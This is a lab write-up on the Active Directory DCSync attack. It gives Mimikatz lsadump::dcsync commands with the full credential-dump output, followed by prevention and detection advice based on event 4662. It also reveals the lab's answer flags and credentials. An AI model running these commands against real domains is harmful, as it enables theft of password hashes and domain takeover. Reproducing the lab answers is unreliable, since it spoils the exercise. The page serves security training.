





import RevealFlag from '@site/src/components/RevealFlag';

# DCSync

## Description

`DCSync` is an attack that threat agents utilize to **impersonate a Domain Controller** and **perform replication with a targeted Domain Controller** to `extract password hashes` from **Active Directory**. The attack can be performed both from the perspective of `a user account` or `a computer`, as long as they have the **necessary permissions assigned**, which are:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

## Attack

We will utilize the user `Rocky` (whose password is `Slavi123`) to showcase the `DCSync` attack. When we check the permissions for Rocky, we see that he has `Replicating Directory Changes` and `Replicating Directory Changes All` assigned:



First, we need to start a new command shell running as Rocky:

```cmd
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```



Subsequently, we need to use `Mimikatz`, one of the tools with an implementation for performing `DCSync`. We can run it by specifying the username whose password hash we want to obtain if the attack is successful, in this case, the user `Administrator`:

### 🔓 Mimikatz

```cmd
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```



It is possible to specify the `/all` parameter instead of a specific username, which will **dump the hashes of the entire AD environment**. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

---

## Prevention

What `DCSync` abuses is **a common operation** in Active Directory environments, as `replications happen between Domain Controllers all the time`; therefore, **preventing** DCSync out of the box is not an option. The only prevention technique against this attack is using solutions such as the [RPC Firewall](https://github.com/zeronetworks/rpcfirewall), a third-party product that can `block` or `allow` **specific RPC calls with robust granularity**. For example, using `RPC Firewall`, we can **only allow replications from Domain Controllers**.

---

## Detection

Detecting `DCSync` is easy because **each Domain Controller replication generates** an [event with the ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4662). We can pick up abnormal requests immediately by monitoring for this event ID and checking whether the initiator account is a Domain Controller. Here's the event generated from earlier when we ran `Mimikatz`; it serves as a flag that a user account is performing this replication attempt:



Since replications occur constantly, we can **avoid false positives** by ensuring the followings:

- Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).

- `Whitelisting systems/accounts` with a (valid) business reason for replicating, such as `Azure AD Connect` *(this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD)*.

---

## Questions

### 1. `Connect to the target and perform a DCSync attack as the user rocky (password:Slavi123). What is the NTLM hash of the Administrator user?`

<RevealFlag>{`fcdc65703dd2b0bd789977f1f3eeaecf`}</RevealFlag>

#### mimikatz

```cmd
runas /user:eagle\rocky cmd.exe
```

> Password: Slavi123

```cmd
cd C:\Mimikatz
```

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
```

```cmd
lsadump::dcsync /domain:eagle.local /user:Administrator
```

```cmd
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <HERE-IS-THE-HASH>

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

---

### `2. After performing the DCSync attack, connect to DC1 as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?`

<RevealFlag>{`Directory Service Access`}</RevealFlag>

<br />



---

## 🎁 Bonus

:::note
Check out two exclusive Mimikatz scripts I built

- [Automatic HashDump for Mimikatz](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/dump-hashes.ps1)
- [Mimikatz log output parser for Hashcat](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/mimikatz-log-to-hashcat-parser.ps1)

:::